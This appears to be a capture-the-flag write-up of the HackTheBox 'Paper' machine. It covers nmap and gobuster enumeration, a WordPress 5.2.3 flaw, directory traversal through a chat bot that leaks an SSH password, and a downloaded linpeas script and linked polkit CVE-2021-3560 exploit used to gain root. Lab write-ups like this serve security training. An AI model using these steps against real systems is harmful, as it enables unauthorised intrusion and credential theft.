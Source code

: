 ```yaml
---
title: Hackthebox - Paper (Easy)
date: 2023-03-13 12:00:00 +0100
categories: [HackTheBox, Write up]
tags: [linux, nmap, wordpress, cve, sudo, gobuster, vhost, htb, linpeas, wget, directory traversal]     # TAG names should always be lowercase
img_path: /img/HTB/Paper/
image: 1Paper.png
---
```




## Enumeration

### Nmap

Let's start scanning the box with nmap:
```bash
nmap -sC -sV -A ip_address
```

![nmap](nmap.png)

Since this is the first time I'm using nmap in a write-up, I'll provide a more detailed explanation. The `-A` flag is used for OS and version detection, script scanning, and traceroute, while `-sC` performs a script scan using the default set of scripts, and `-sV` is used for version scanning.

From the nmap output, we can see that the server has three open ports: 22, 80, and 443. While we need to inspect the webpage further, we've already noticed something strange from the nmap scan: the `TRACE` HTTP method is allowed. If [Cross Site Tracing](https://owasp.org/www-community/attacks/Cross_Site_Tracing)

### Web server
If we take a look at the port 80, there is a default page from apache hosted on CentOS.

![Web Page](image1.png)

At this point we can try to enumerate further with gobuster and intercept the HTTP request with burpusite to see if we can get something interesting.
Gobuster didn't find anything whereas burpsuite did:

![Burpsuite](Burpsuite.png)

In the response header there is a field `X-Backend-Server: office.paper`.

Let's add it in the `/etc/hosts`.

We can now navigate to `office.paper`:

![Web Page](officepaper.png)

Now we can enumerate this new webapp with gobuster again, using it not only for the directories search but for the virtual hosts too:
```bash
gobuster dir -u office.paper -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
```

![Gobuster dir](gobuster.png)

From the gobuster output we see it is a wordpress site.

```bash
gobuster vhost -u office.paper -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt --append-domain
```
![Gobuster vhost](vhost.png)
So we have a subdomain `chat.office.paper`, let's add it too in the `/etc/hosts` file.
![Chat webpage](chat.png)
It looks like we need a secret registration URL, but we don't have it.
Before trying to bypass this login form I would like to try a `wpscan` as we have seen before it is a wordpress site.
```bash
wpscan --url office.paper
```

![wpscan](wpcan.png)

Wpscan has found a wordpress version 5.2.3 which is insecure, let's try to search if there is some exploit for it.
Indeed:
[https://www.exploit-db.com/exploits/47690](https://www.exploit-db.com/exploits/47690).
Trying this vulnerabilities on our site we found something interesting, a secret post with the registration link!

![registrationlink](registrationlink.png)

Now we can register and login in the chat, and looking a the general chat we see that there is a bot who can list and read files in the filesystem because the bot is vulnerable to directory traversal! This part is a lot CTFs like, so I'll go a bit faster. Enumerating the filesystem we can find a file  `../hubot/.env` with a password, now we can try this password to login via ssh with the users we can see in the `/etc/passwd`.

### User flag

```terminal
ssh dwight@office.paper                                                                                                      
dwight@office.paper's password:                                                                                                  
Activate the web console with: systemctl enable --now cockpit.socket                                                             
                                                                                                                                 
Last login: Tue Mar 14 06:29:23 2023 from 10.10.14.7                                                                             
[dwight@paper ~]$ pwd                                                                                                            
/home/dwight                                                                                                                     
[dwight@paper ~]$ id                                                                                                             
uid=1004(dwight) gid=1004(dwight) groups=1004(dwight)                                                                            
[dwight@paper ~]$ ls                                                                                                             
bot_restart.sh  hubot  sales  user.txt                                                                                           
[dwight@paper ~]$ cat user.txt                                                                                                   
8113e09a19213dbf************
```


## Privilage Escalation

We now have several options, we can try to manually enumerate or we can run a script like `linPEAS` or `linenum`. Even if manually enumerate is really good as practice, on this machine I dont't recommend it. So, let's see if we have wget on the machine with `which wget`, we have it! we can now open a server on this machine with the `linpeas.sh` script and download it from the target machine.
On our machine let's move on the directory with `linpeas.sh` and run:
```bash
python -m http.server 2323
```
Let's download it from the target machine:
```bash
wget http://our_ip_address:2323/linpeas.sh
```
and after the download:
```terminal
[dwight@paper ~]$ wget http://$our_ip_address$:2323/linpeas.sh                                                                         
--2023-03-14 06:41:08--  http://$our_ip_address$:2323/linpeas.sh                                                                       
Connecting to $our_ip_address$:2323... connected.                                                                                      
HTTP request sent, awaiting response... 200 OK                                                                                   
Length: 765823 (748K) [text/x-sh]                                                                                                
Saving to: ‘linpeas.sh’                                                                                                          
                                                                                                                                 
linpeas.sh                          100%[=================================================================>] 747.87K   960KB/s   
 in 0.8s                                                                                                                         
                                                                                                                                 
2023-03-14 06:41:08 (960 KB/s) - ‘linpeas.sh’ saved [765823/765823]                                                              
                                                                                                                                 
[dwight@paper ~]$ chmod +x linpeas.sh                                                                                            
[dwight@paper ~]$ ./linpeas.sh
```
It will return that the sudo version 1.8.29 is vulnerable to Vulnerable to CVE-2021-3560.[https://github.com/Almorabea/Polkit-exploit/blob/main/CVE-2021-3560.py](https://github.com/Almorabea/Polkit-exploit/blob/main/CVE-2021-3560.py)

Paste and copy this script in the box:
> When copy and paste on vi is usually better enter paste mode with `:set paste`.
{: .prompt-tip}
```bash
vi pe.py
chmod +x pe.py
python3 pe.py
```
### Root flag
And BOOM! We did it!
```terminal
[root@paper ~]# id
uid=0(root) gid=0(root) groups=0(root)
[root@paper ~]# cat /root/root.txt
acd41857c8e614c70***************
```
